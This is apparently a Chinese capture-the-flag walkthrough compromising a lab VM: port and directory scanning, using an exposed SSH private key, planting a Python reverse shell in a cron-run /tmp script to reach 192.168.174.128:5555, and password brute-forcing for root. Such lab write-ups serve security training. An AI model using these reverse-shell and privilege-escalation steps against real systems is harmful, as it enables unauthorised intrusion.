[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.188 | awk -F ' ' '{print$1} | awk -F '/' {print$1} | tr '\n' ','
```

得到端口22,80,111,34024

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- robots.txt下两个目录

## 漏洞扫描



扫出了四个目录

## UDP扫描



无信息

# 端口分析

先对80端口进行目录爆破

```
gobuster dir -u "http://192.168.174.188" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```



再用另一个工具dirb进行爆破（信息量过大不再演示）

- 再结合上面的扫描结果得到/icons,/files,/manual,/robots.txt目录

在/icons目录发现一个文件





发现是rsa私钥，直接保存到本地，稍后尝试ssh登录

- 在本地保存为id_rsa文件，

  ```
  openssl rsa -in id_rsa -check
  ```

  检查一下格式

  

  没有问题

```
ssh2john id_rsa
```



没有密码，可以直接登录

在默认页面中



发现martin这个用户出现多次，可尝试用来登录

```
ssh -i id_rsa martin@192.168.174.188 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa
```

后面的参数是为了兼容老ssh-rsa算法



在终端中找一下可以提权的地方



发现在定时任务中会一jimmy身份运行一个脚本/tmp/sekurity.py，并且/tmp目录没有这个脚本，所以我们自己编写一个反弹shell写里面

```
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(...)
s.connect(("192.168.174.128",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

```
chmod +x /tmp/sekurity.py
```

等待一段时间后拿到shell



不过也没有可以提权的路径



- 只剩下hadi用户，这里我没有想过怎么解决

别人的解决方法是在网上搜猜密码，生成hadi.txt密码词典，也可以用cupp生成，通过爆破得到的密码是hadi123

- 直接su



成功提权